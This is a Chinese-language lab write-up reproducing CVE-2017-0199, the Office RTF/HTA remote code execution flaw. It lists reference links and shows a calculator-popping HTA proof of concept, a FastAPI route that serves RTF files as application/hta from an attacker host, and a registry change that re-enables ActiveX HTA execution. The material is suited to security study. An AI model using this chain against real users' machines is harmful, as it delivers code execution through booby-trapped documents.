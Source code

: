 # CVE-2017-0199

- 分析
  - [CVE-2017-0199漏洞分析-CSDN博客](https://blog.csdn.net/qq_37672864/article/details/89353787)
- 利用工具
  - [GitHub - bhdresh/CVE-2017-0199: Exploit toolkit CVE-2017-0199 - v4.0 is a handy python script which provides pentesters and security researchers a quick and effective way to test Microsoft Office RCE. It could generate a malicious RTF/PPSX file and deliver metasploit / meterpreter / other payload to victim without any complex configuration.](https://github.com/bhdresh/CVE-2017-0199)

- 复现过程
  - 手工复现
    - [对CVE-2017-0199的一次复现过程与内网穿透的利用 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/26522540)
    - [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)
    - [Office CVE-2017-0199复现 - Junay的博客 (delcoding.github.io)](https://delcoding.github.io/2017/11/office-cve-2017-0199/)
    - [Tuuu Nya's blog | 一个想当黑客的艺术家 ✨ (hackersb.cn)](https://www.hackersb.cn/hacker/228.html)
    - [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)
    - [code2sec.com/office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（一）.md at master · bit4woo/code2sec.com · GitHub](https://github.com/bit4woo/code2sec.com/blob/master/office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（一）.md)
    - [Office CVE-2017-0199 复现 - X1r0z Blog (exp10it.io)](https://exp10it.io/2019/07/office-cve-2017-0199-复现/)
    - [CVE-2017-0199 Microsoft Office 逻辑漏洞复现和利用 | Hacked By Fish_o0O (fish-o0o.github.io)](https://fish-o0o.github.io/2018/03/07/CVE-2017-0199 Microsoft Office 逻辑漏洞复现和利用/)
    - [Office远程代码执行漏洞CVE-2017-0199复现 - SecurityKid - 博客园 (cnblogs.com)](https://www.cnblogs.com/SecurityKid/p/7384918.html)
  - MSF
    - [OFFICE OLE2LINK 漏洞 (CVE-2017-0199) 利用 - Gorgias'Blog](https://gorgias.me/2017/05/07/CVE-2017-0199-利用/)
    - [CVE-2017-0199 复现 - 40huo's - 知至知终](https://www.40huo.cn/blog/cve-2017-0199.html)
  - 复现失败解决方案
    - [CVE-2017-0199复现失败解决方案-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2002507)

- 检测对抗
  - [Microsoft Office OLE2Link(CVE-2017-0199)漏洞利用技术分析与防护方案 – 绿盟科技技术博客 (nsfocus.net)](https://blog.nsfocus.net/microsoft-office-ole2link-exploits-technology-analysis/)
  - [对利用CVE-2017-0199漏洞的病毒变种的监测与分析-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1044292)
  - 野外样本分析
    - [CVE-2017-8570首次公开的野外样本及漏洞分析 (seebug.org)](https://paper.seebug.org/520/)

---

## 简介

> [Tuuu Nya's blog | 一个想当黑客的艺术家 ✨ (hackersb.cn)](https://www.hackersb.cn/hacker/228.html)

CVE-2017-0199是首个Microsoft Office RTF漏洞，漏洞发布日期为2017年4月11日

受影响系统包括：

- Microsoft Office 2016
- Microsoft Office 2013
- Microsoft Office 2010
- Microsoft Office 2007

当用户打开包含嵌入式漏洞的文档时，此漏洞允许恶意攻击者下载并执行包含PowerShell命令的Visual Basic脚本。

微软官方对该漏洞的通告：[CVE-2017-0199 - Security Update Guide - Microsoft - Microsoft Office/WordPad Remote Code Execution Vulnerability w/Windows](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2017-0199)

---

## 复现环境

- 靶机: 
  - [Win7](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)+[Office2010](https://msdn.itellyou.cn/)
  - IP: `192.168.1.14`

- 攻击机 Kali
  - IP: `100.1.1.131`

---

## 漏洞复现

> [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)

很多漏洞复现的文章都提到了使用 Apache 服务器, 其目的都指向自定义响应 `Content-type`

因此这里我们只需要能够自定义响应的 `Content-type` 就不一定需要 Apache 服务器

可以用 [Python/use_case/FileServer/FastAPI/fileserver.py · main · 33 2 / DailyNotesCodeBackup · GitLab](https://gitlab.com/ayusummer233/dailynotescodebackup/-/blob/main/Python/use_case/FileServer/FastAPI/fileserver.py?ref_type=heads)

这里也以这个 Fastapi 写的 FileServer 为例

在路由里指定 `Content-type` 即可

----

编写一个弹计算器的 POC:

`calc.hta`

```xml
<script>
    a=new ActiveXObject("WScript.Shell");
    a.run('%windir%\\System32\\cmd.exe /c calc.exe', 0);window.close();
</script>
```

---

用 Office2016 新建一个 word 文档保存为 `office2016.docx` 将其放到 FileServer 的 `upload` 目录下并重命名为 `office2016docx.rtf`

![image-20240614095147296](http://cdn.ayusummer233.top/DailyNotes/202406140951201.png)

在靶机上用 Office2016 新建一个 word 文档, `插入->对象->由文件创建`

填写 FileServer 中刚才放置的 `office2016docx.rtf` 的下载链接, 这里是 `http://100.1.1.131:8000/download/office2016docx.rtf`

并勾选 `链接到文件`

![image-20240613180746628](http://cdn.ayusummer233.top/DailyNotes/202406131807154.png)

点击 `确定` 后即会请求该文件

![image-20240613180914152](http://cdn.ayusummer233.top/DailyNotes/202406131809247.png)

保存为 rtf 文件 `Office2016docx-insert-rtf.rtf`

![image-20240613181301997](http://cdn.ayusummer233.top/DailyNotes/202406131813096.png)

---

解下来就需要对这个链接的 rtf 文件动手了, 使用前面编写的弹计算器的 POC `calc.hta` 重命名并替换掉前面  FileServer 上放置的 `office2016docx.rtf`

![image-20240614095637939](http://cdn.ayusummer233.top/DailyNotes/202406140956046.png)

然后改下 `fileserver.py` 中文件下载的路由, 让下载 `rtf` 文件的响应中的 `Content-type` 为 `application/hta`:

```python
@app.get("/download/{file_path:path}")
async def download_file(file_path: str):
    file_location = UPLOAD_DIRECTORY / Path(file_path)
    if file_location.exists():
        if file_location.suffix == ".rtf":
            media_type = "application/hta"
        else:
            return FileResponse(str(file_location))

        return FileResponse(str(file_location), media_type=media_type)
```

![image-20240614095814853](http://cdn.ayusummer233.top/DailyNotes/202406140958961.png)

---

双击打开靶机 Win7 上的 `Office2016docx-insert-rtf.rtf`

如果报错如下:

![image-20240614095953403](http://cdn.ayusummer233.top/DailyNotes/202406140959527.png)

根据 [CVE-2017-0199复现失败解决方案-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2002507) 中提到的, 这是因为注册表默认禁用了ActiveX执行HTA

解决方案为将 `Win+R -> 输入regedit -> 回车`  注册表项 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{3050f4d8-98b5-11cf-BB82-00AA00BDCE0B}` 从 `400` 改为 `0`

![image-20240614102032895](http://cdn.ayusummer233.top/DailyNotes/202406141020003.png)

![image-20240614102057166](http://cdn.ayusummer233.top/DailyNotes/202406141020290.png)



![image-20240616171919988](http://cdn.ayusummer233.top/DailyNotes/202406161719114.png)

---




